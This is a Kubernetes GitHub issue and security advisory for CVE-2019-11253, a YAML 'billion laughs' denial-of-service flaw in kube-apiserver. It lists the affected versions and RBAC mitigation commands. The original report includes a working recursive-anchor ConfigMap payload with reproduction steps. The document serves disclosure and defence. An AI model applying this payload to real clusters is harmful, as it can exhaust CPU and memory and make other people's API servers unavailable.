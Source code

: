 CVE-2019-11253 is a denial of service vulnerability in the kube-apiserver, allowing authorized users sending malicious YAML or JSON payloads to cause kube-apiserver to consume excessive CPU or memory, potentially crashing and becoming unavailable. This vulnerability has been given an initial severity of High, with a score of 7.5 ([CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H)).

Prior to v1.14.0, default RBAC policy authorized anonymous users to submit requests that could trigger this vulnerability. Clusters upgraded from a version prior to v1.14.0 keep the more permissive policy by default for backwards compatibility. See the mitigation section below for instructions on how to install the more restrictive v1.14+ policy.

**Affected versions:**
* Kubernetes v1.0.0-1.12.x
* Kubernetes v1.13.0-1.13.11, resolved in v1.13.12 by https://github.com/kubernetes/kubernetes/pull/83436
* Kubernetes v1.14.0-1.14.7, resolved in v1.14.8 by https://github.com/kubernetes/kubernetes/pull/83435
* Kubernetes v1.15.0-1.15.4, resolved in v1.15.5 by https://github.com/kubernetes/kubernetes/pull/83434
* Kubernetes v1.16.0-1.16.1, resolved in v1.16.2 by https://github.com/kubernetes/kubernetes/pull/83433

All four patch releases are now available.

Fixed in master by #83261

**Mitigation:**

Requests that are rejected by authorization do not trigger the vulnerability, so managing authorization rules and/or access to the Kubernetes API server mitigates which users are able to trigger this vulnerability.

To manually apply the more restrictive v1.14.x+ policy, either as a pre-upgrade mitigation, or as an additional protection for an upgraded cluster, save the [attached file](https://github.com/kubernetes/kubernetes/files/3735508/rbac.yaml.txt) as `rbac.yaml`, and run:

```sh
kubectl auth reconcile -f rbac.yaml --remove-extra-subjects --remove-extra-permissions 
```

**Note: this removes the ability for unauthenticated users to use `kubectl auth can-i`**

If you are running a version prior to v1.14.0:
* in addition to installing the restrictive policy, turn off autoupdate for this clusterrolebinding so your changes aren’t replaced on an API server restart:
    ```sh
    kubectl annotate --overwrite clusterrolebinding/system:basic-user rbac.authorization.kubernetes.io/autoupdate=false
    ```
* after upgrading to v1.14.0 or greater, you can remove this annotation to reenable autoupdate:
    ```sh
    kubectl annotate --overwrite clusterrolebinding/system:basic-user rbac.authorization.kubernetes.io/autoupdate=true
    ```

=============

**Original description follows:**

**Introduction** 

Posting this as an issue following report to the security list who suggested putting it here as it's already public in a Stackoverflow question [here](https://stackoverflow.com/questions/58129150/security-yaml-bomb-user-can-restart-kube-api-by-sending-configmap/58133282#58133282)

**What happened**:

When creating a ConfigMap object which has recursive references contained in it, excessive CPU usage can occur.  This appears to be an instance of a ["Billion Laughs" attack](https://en.wikipedia.org/wiki/Billion_laughs_attack) which is quite well known as an XML parsing issue.

Applying this manifest to a cluster causes the client to hang for some time with considerable CPU usage.

```
apiVersion: v1
data:
  a: &a ["web","web","web","web","web","web","web","web","web"]
  b: &b [*a,*a,*a,*a,*a,*a,*a,*a,*a]
  c: &c [*b,*b,*b,*b,*b,*b,*b,*b,*b]
  d: &d [*c,*c,*c,*c,*c,*c,*c,*c,*c]
  e: &e [*d,*d,*d,*d,*d,*d,*d,*d,*d]
  f: &f [*e,*e,*e,*e,*e,*e,*e,*e,*e]
  g: &g [*f,*f,*f,*f,*f,*f,*f,*f,*f]
  h: &h [*g,*g,*g,*g,*g,*g,*g,*g,*g]
  i: &i [*h,*h,*h,*h,*h,*h,*h,*h,*h]
kind: ConfigMap
metadata:
  name: yaml-bomb
  namespace: default
```
**What you expected to happen**:

Ideally it would be good for a maximum size of entity to be defined, or perhaps some limit on recursive references in YAML parsed by kubectl.

One note is that the original poster on Stackoverflow indicated that the resource consumption was in `kube-apiserver` but both tests I did (1.16 client against 1.15 Kubeadm cluster and 1.16 client against 1.16 kubeadm cluster) showed the CPU usage client-side.

**How to reproduce it (as minimally and precisely as possible)**:

Get the manifest above and apply to a cluster as normal with `kubectl create -f <manifest>`.  Use `top` or another CPU monitor to observe the quantity of CPU time used.

**Anything else we need to know?**:

**Environment**:
- Kubernetes version (use `kubectl version`):

**test 1** (linux AMD64 client, Kubeadm cluster running in kind)
```
Client Version: version.Info{Major:"1", Minor:"16", GitVersion:"v1.16.0", GitCommit:"2bd9643cee5b3b3a5ecbd3af49d09018f0773c77", GitTreeState:"clean", BuildDate:"2019-09-18T14:36:53Z", GoVersion:"go1.12.9", Compiler:"gc", Platform:"linux/amd64"}
Server Version: version.Info{Major:"1", Minor:"15", GitVersion:"v1.15.0", GitCommit:"e8462b5b5dc2584fdcd18e6bcfe9f1e4d970a529", GitTreeState:"clean", BuildDate:"2019-06-25T23:41:27Z", GoVersion:"go1.12.5", Compiler:"gc", Platform:"linux/amd64"}
```

**test 2** (Linux AMD64 client, Kubeadm cluster running in VMWare Workstation)
```
Client Version: version.Info{Major:"1", Minor:"16", GitVersion:"v1.16.0", GitCommit:"2bd9643cee5b3b3a5ecbd3af49d09018f0773c77", GitTreeState:"clean", BuildDate:"2019-09-18T14:36:53Z", GoVersion:"go1.12.9", Compiler:"gc", Platform:"linux/amd64"}
Server Version: version.Info{Major:"1", Minor:"16", GitVersion:"v1.16.0", GitCommit:"2bd9643cee5b3b3a5ecbd3af49d09018f0773c77", GitTreeState:"clean", BuildDate:"2019-09-18T14:27:17Z", GoVersion:"go1.12.9", Compiler:"gc", Platform:"linux/amd64"}
```

